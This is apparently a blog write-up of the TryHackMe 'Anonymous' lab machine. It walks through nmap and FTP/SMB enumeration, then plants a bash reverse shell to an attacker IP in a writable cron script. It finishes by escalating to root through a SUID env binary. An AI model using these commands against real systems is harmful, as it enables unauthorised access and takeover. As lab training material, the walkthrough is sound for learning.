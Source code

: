 ```yaml
---
title: "Tryhackme Anonymous Write-up"
date: 2021-02-15 16.40 
categories: [Tryhackme, Linux]
tags: [thm ,ftp, suid, env]
author: LXD
image: /assets/img/posts/anonymous/anonymous.png
---
```


Hello, Today we are going to solve a machine named `Anonymous` which is linux based machine from [Tryhackme](https://tryhackme.com/). Let's the solution step by step.

### Reconnaissance

- Nmap scanning
- FTP enumeration
- SMB enumeration

### Exploitation

- Writing to a writeable ftp file 
- Getting reverse shell

## Privilege Escalation

- Finding SUID Binaries
- Abuse of env SUID bit

## Reconnaissance

### Nmap Scanning

As always let's start with nmap scanning as described above.

> sudo nmap -sC -sV -oA nmap/anonymous-open-ports 10.10.25.138

Once we ran nmap by given command, it will return us following output;

```bash
# nmap -sC -sV -oA nmap/anonymous-ports -v -Pn 10.10.25.138
Increasing send delay for 10.10.25.138 from 0 to 5 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 10.10.25.138
Host is up (0.077s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.17.122
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   ANONYMOUS<00>        Flags: <unique><active>
|   ANONYMOUS<03>        Flags: <unique><active>
|   ANONYMOUS<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-10-22T14:13:41+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-22T14:13:41
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

### FTP Enumeration

According to the result of nmap, we have 4 open ports. FTP is running on port 21, SSH is running on port 22 and SMB is running on port 139,445.Regarding to the nmaps's output we can understand that FTP anonymous login is allowed. If we try to log in ftp server with anonymous and anonymous credentials, we'll get a successfull login. 

![FTP Login](/assets/img/posts/anonymous/ftp_login.png)

Once we login we can see that there is a directory called scripts and this directory has 3 different files. Here are the content of the directory.

`cleans.sh`
```bash
#!/bin/bash
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

`removed_files.log`
```bash
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

`to_do.txt`
```bash
I really need to disable the anonymous login...it's really not safe
```

As we can see ,we do have writing and execution privileges.

### SMB Enumeration

We can use the smbclient tool to list shared folders in SMB. 

> smbclient -L \\\\10.10.25.138\\

After running the command we see that there is shared folder named `pics`. We can log in to the smb server with the use of null authentication in SMB. 

> smbclient \\\\10.10.25.138\\pics -U ''

When we log in to smb, we see that there are 2 dog pictures.

![Dog 1](/assets/img/posts/anonymous/corgo2.jpg)
![Dog 2](/assets/img/posts/anonymous/puppos.jpeg)

`Spoiler Alert: These pictures will not lead you anything useful ,just a rabbit hole.`

## Exploitation

Since there is no any other service back to gather information, our next process will be exploitation. Now, we've only cleans.sh which is a scheduled task on the machine.

### Writing to clean.sh file

It runs per 1 minute and programmed to `echo` this text ("Running cleanup script:  nothing to delete") into `removed_files.log` file. If we put our reverse shell into `clean.sh`, we can gain access to the system as a low privileged user. Our code will be like this;

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.9.17.122/1337 0>&1
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

### Getting Reverse Shell

![Clean bash file](/assets/img/posts/anonymous/ftp_clean.png)

We replace the clean.sh file with ours. Once clean.sh file runs again we'll get a shell.

![Getting Shell](/assets/img/posts/anonymous/shell.png)

## Privilege Escalation

Now, It's time to upgrade our privileges. `I checked that if there is an any command that we can run with sudo rights but there's nothing.` 

### Abuse of env SUID bit

![Linpeas](/assets/img/posts/anonymous/linpeas.png)

Hmm it's interesting ,let's confirm it existence with following command:

> find / -user root -perm -u=s 2>/dev/null

![PE Confirmation](/assets/img/posts/anonymous/PE_Confirmation)


Indeed ,there's a non-standard SUID BIT calling `env`.


We can exploit this SUID bit like this;

> env /bin/sh -p

![Becoming Root](/assets/img/posts/anonymous/root.png)

We escalate our privilege to root.

Thank you for your time ,Stay Tunned!

